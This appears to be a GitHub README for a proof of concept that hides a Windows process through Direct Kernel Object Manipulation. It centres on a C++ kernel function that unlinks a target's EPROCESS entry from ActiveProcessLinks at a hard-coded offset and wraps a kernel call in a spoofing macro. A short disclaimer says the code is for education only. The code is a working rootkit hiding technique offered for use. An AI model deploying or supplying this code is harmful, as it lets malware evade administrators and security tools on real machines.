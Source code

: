 # DKOM-Process-Unlinker
**POC for Kernel-Level Process Hiding via Direct Kernel Object Manipulation (DKOM)**

This project demonstrates a minimalistic Proof of Concept (POC) for hiding a process in Windows kernel mode by directly manipulating kernel objects **(DKOM - Direct Kernel Object Manipulation)**.
It unlinks a target process's **EPROCESS** structure from the ActiveProcessLinks list, making the process invisible to standard process enumeration tools like Task Manager.

---

```cpp
// Hides a process from the active process linked list in the kernel
NTSTATUS HideProcess(int processId)
{
    PEPROCESS targetProcess = nullptr;

    // Look up the process object by its PID
    NTSTATUS status = ace_spoof(PsLookupProcessByProcessId)((HANDLE)processId, &targetProcess);
    if (!NT_SUCCESS(status) || !targetProcess)
    {
        return STATUS_UNSUCCESSFUL;
    }

    // Get the ActiveProcessLinks entry from the EPROCESS structure
    LIST_ENTRY* activeProcessLinks = (LIST_ENTRY*)((CHAR*)targetProcess + 0x448);

    // Unlink the process from the active process list
    LIST_ENTRY* prevEntry = activeProcessLinks->Blink;
    LIST_ENTRY* nextEntry = activeProcessLinks->Flink;

    prevEntry->Flink = nextEntry;
    nextEntry->Blink = prevEntry;

    return STATUS_SUCCESS;
}```

---

## Disclaimer

This project is for **educational and research purposes only**.  
I do **not** condone or support malicious use of this information.  
Use responsibly, in controlled environments, and at your own risk.

---
